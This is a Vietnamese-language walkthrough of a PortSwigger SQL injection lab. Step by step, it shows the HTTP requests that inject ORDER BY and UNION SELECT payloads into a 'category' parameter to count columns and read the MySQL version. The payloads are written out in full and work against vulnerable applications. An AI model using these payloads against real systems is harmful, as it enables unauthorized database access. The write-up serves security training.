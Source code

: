 # [Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

Lỗ hổng: Phía server không có phòng thủ với SQLi, Sử dụng UNION để lấy phiên bản của db.

1. Truy cập vào mục tiêu, và tìm các user input có liên quan đến sql:
	- `GET /filter?category=Accessories HTTP/1.1`
2. Kiểm tra SQLi:
	- `GET /filter?category=' HTTP/1.1`
	- ![ae2e8d46d97e83a1b9a45bcaae125737.png](../../../../../../_resources/ae2e8d46d97e83a1b9a45bcaae125737.png)
3. Sử dụng UNION để kiểm tra số cột:
	- Gửi request đến intruder và test với payload từ 1 đến 10
	- `GET /filter?category='+ORDER+BY+§§-- HTTP/1.1`
	- Kết quả: ![a96026fedbf291d056b30e3cf0a8971d.png](../../../../../../_resources/a96026fedbf291d056b30e3cf0a8971d.png)
	- Query có vấn đề.
4. Vấn đề ở comment của MySQL khác với các bài trước. Comment của MYSQL yêu cầu một dấu cách đằng sau 2 dấu `--`:
	- ![2eb7fa4949487a25d10b1ba1fa588a46.png](../../../../../../_resources/2eb7fa4949487a25d10b1ba1fa588a46.png)
	- Sửa lại request: `GET /filter?category='+ORDER+BY+§§--+ HTTP/1.1`
	- Kết quả: ![b09997ebb81efea8ee6e3bcf45a9b40b.png](../../../../../../_resources/b09997ebb81efea8ee6e3bcf45a9b40b.png)
	- => Có 2 cột
5. Kiểm tra kiểu dữ liệu của 2 cột: `GET /filter?category='UNION+SELECT+'s','s'--+ HTTP/1.1`
	- Cả 2 là string: ![09beae686b7503aac89359e4ad0a1518.png](../../../../../../_resources/09beae686b7503aac89359e4ad0a1518.png)
6. Sử dụng SQL query để lấy version của MySQL trên cheatsheet, SQLi: `GET /filter?category='UNION+SELECT+NULL,@@version--+ HTTP/1.1`
	- Kết quả: ![03722883dc33f10691a3c8c6980310ae.png](../../../../../../_resources/03722883dc33f10691a3c8c6980310ae.png) 
=> Lab Solved